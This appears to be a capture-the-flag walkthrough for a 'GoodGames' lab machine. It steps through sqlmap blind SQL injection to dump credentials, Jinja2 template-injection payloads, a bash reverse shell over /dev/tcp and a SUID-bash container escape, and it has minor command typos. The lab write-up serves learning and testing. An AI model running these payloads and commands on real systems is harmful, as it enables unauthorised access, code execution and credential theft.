










### Task 1

Submit User Flag

We use nmap to find the services on the target machine and we see that an apache server runs on port 80.

``nmap -sV target_ip``



Navigating to the browser we see a login page where we will try bypassing the authentication using SQL injection.

Server-Side Template Injection (SSTI) vulnerability arises when an application incorporates user-supplied input directly into its server-side templates without proper sanitization or validation. Template engines, which combine templates with dynamic data to generate web pages, can be exploited through SSTI attacks.


To find forms that are candidates for sql injection run

``sqlmap -u "http://10.129.51.14/" --forms --crawl=2 --dbms=mysql``

--crawl=CRAWLDEPTH: crawls the website starting from the target url

We find a total of 8 targets. One of the identified forms is the login form and sqlmap auto-filled blank fields, tried multiple techniques and identified that the email field is vulnerable to time-based blind SQL injection.





After confirming the vulnerability we want to enumerate the database and find the table storing the usernames and passwords to get the user flag.

We can try running the following command to retrieve the databse names.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123" --dbs``

We found 2 available databases named information_schema and main.

Next, we will list the tables from each.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D <database_name> --tables``

Starting with the database named main, we find 3 tables blog, blog_comments and user and which we can further investigate.
We start with the table user.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D main -T user --columns``

There, we find 4 columns in total with a column named email and a column name password that might get us the flags we need.



We then run the following command to retreive that information.

``sqlmap -u "http://10.129.51.14/login" --data="email=*&password=test123/login" -D main -T user -C email,password --dump``

We find the email and the password and with those credentials we login after we use a hash cracker to find the plain texts password from the hashed one.

Now that we are logged in as admin, we can see a gear on the top right that redirects as to internal-administration.goodgames.htb. We need to edit the /etc/hosts file to point this domain to the target machine's IP.
Note, editing the hosts file requires administrative privileges.

Following the url, we see a login page:


There we reuse the credentials that we found on the previous step, where admin is the username. 
We are presented with a dashborad for the admin.



After we are in we attempt to find a palce where sql injection is possible. Navigating to the settings page,
we see the general information where we can try sql injection on the field of the full name.
We try the usual test of ' OR 1=1 --- and we see this renders as the full name. We then try {{1+1}} for Jinja2 (Python) and we see this results to two, 
so we confirm SSTI (Server Side Template Injection) which can lead to an RCE.
Now we can go on with jinja2 exploitation. 

First we open a port locally:

``nc -lvnp 4343``

Different ways using some python libraries to exploit including:

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

Or in the shotest versions:
```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

We used 
``{{ cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<local_ip>/<exposed_port> 0>&1"').read() }}``

We now got the root control of the server



We can then navigate to /home/augustus where we find the user.text, in which the user flag is user flag is located.

### Task 2

But since we are already a root user but not finding any root.txt under the /root directory, we might be inside a container.

We can invistigate the cgroup file under the proc folder that contains all processes.



From this file, we understand that we are inside a docker container. So, we need to access the host from the container which is known as container escape or breakout.

One way of container gaining access to host file systems, is if they areconfigured to run with the SYS_ADMIN capability which allows
containers to perform actions through the linux kernel that would be available only to root users on a linux server.

capa=`cat /proc/1/status | grep -i 'CapEff' | awk '{print $2}'`; capsh --decode=$capa


grep CapEff /proc/$$/status

CapEff this set represents all the capabilities the process is using at a specific moment in time. 
Then we need to decode the permitted capcbility using capsh.

``capsh -- decode=xxxxxx00000000a80425fb``



After decoding, we see that the cap_sys_admin capability is not there, so we cannot use this to escape the container.

We then can try ssh to the host machine using the username augustus and the password we had before found for the admin
``ssh augustus@172.19.0.1``

And it works! 

Since the container mounts /home/augustus from the host anything the container writes in this directory, is also visible on the host and vice versa.

Having said that we can follow the next steps to create a SUID-root bash binary on the host via a shared volume.
While in the host we copy the /bin/bash to the current dirrectory ``cp /bin/bash .``.
Then inside the container we can:

```
chown root:root /home/augustus/bash
chmod 4777 /home/augustus/bash
```

Now going back to host, we run ``./bash -p`` to get a root shell and finally get the root flag.



What is blind SQL injection?


Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
Many techniques as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the inkected query within the application's responses.


